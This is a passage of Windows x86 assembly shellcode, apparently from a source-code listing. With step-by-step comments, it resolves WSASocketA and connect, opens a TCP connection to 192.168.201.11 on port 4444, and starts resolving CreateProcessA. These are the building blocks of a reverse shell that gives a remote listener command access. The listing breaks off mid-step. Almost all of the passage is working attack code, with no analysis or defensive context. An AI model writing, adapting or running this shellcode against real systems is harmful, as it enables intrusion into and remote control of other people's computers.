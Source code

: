 ```c
IMUL EBX, 0x64                       ;EBX = 0x190
MOV  EDX, [ESP + EBX]                ;EDX has the address of GetProcAddress
PUSH 0x61614174                      ;"aaAt"
SUB  word [ESP + 0x2], 0x6161        ;"At" (remove "aa")
PUSH  0x656b636f                     ;"ekco"
PUSH  0x53415357                     ;"SASW"
PUSH ESP                             ;"WSASocketA", GetProcAddress 2nd argument
MOV  EAX, EDI                        ;EAX now holds the ws2_32.dll address
PUSH EAX                             ;push the first argument of GetProcAddress
CALL EDX                             ;call GetProcAddress
PUSH EDI                             ;save the ws2_32.dll address to use it later
               
;call WSASocketA               
XOR ECX, ECX                         ;zero out ECX register
PUSH EDX                             ;null value for dwFlags argument
PUSH EDX                             ;zero value since we dont have an existing socket group
PUSH EDX                             ;null value for lpProtocolInfo
MOV  DL, 0x6                         ;IPPROTO_TCP
PUSH EDX                             ;set the protocol argument
INC  ECX                             ;SOCK_STREAM(TCP)
PUSH ECX                             ;set the type argument
INC  ECX                             ;AF_INET(IPv4)
PUSH ECX                             ;set the ddress family specification argument
CALL EAX                             ;call WSASocketA
XCHG EAX, ECX                        ;save the socket returned from WSASocketA at EAX to ECX in order to use it later
               
;Find the address of connect
POP  EDI                             ;load previously saved ws2_32.dll address to ECX
ADD  ESP, 0x10                       ;Align stack
XOR  EBX, EBX                        ;zero out EBX
ADD  BL, 0x4                         ;add 0x4 to lower register BL
IMUL EBX, 0x63                       ;EBX = 0x18c
MOV  EDX, [ESP + EBX]                ;EDX has the address of GetProcAddress
PUSH 0x61746365                      ;"atce"
SUB  word [ESP + 0x3], 0x61          ;"tce" (remove "a")
PUSH 0x6e6e6f63                      ;"nnoc"
PUSH ESP                             ;"connect", second argument of GetProcAddress
PUSH EDI                             ;ws32_2.dll address, first argument of GetProcAddress
XCHG ECX, EBP
CALL EDX                             ;call GetProcAddress

;call connect
PUSH 0x0bc9a8c0                      ;sin_addr set to 192.168.201.11
PUSH word 0x5c11                     ;port = 4444
XOR  EBX, EBX                        ;zero out EBX
add  BL, 0x2                         ;TCP protocol
PUSH word BX                         ;push the protocol value on the stack
MOV  EDX, ESP                        ;pointer to sockaddr structure (IP,Port,Protocol)
PUSH byte  16                        ;the size of sockaddr - 3rd argument of connect
PUSH EDX                             ;push the sockaddr - 2nd argument of connect
PUSH EBP                             ;socket descriptor = 64 - 1st argument of connect
XCHG EBP, EDI
CALL EAX                             ;execute connect;

;Find the address of CreateProcessA
ADD  ESP, 0x14                       ;Clean stack
XOR  EBX, EBX                        ;zero out EBX
ADD  BL, 0x4                         ;add 0x4 to lower register BL
IMUL EBX, 0x62                       ;EBX = 0x194
MOV  EDX, [ESP + EBX]                ;EDX has the address of GetProcAddress
PUSH 0x61614173                      ;"aaAs"
SUB  dword [ESP + 0x2], 0x6161       ;"As"
```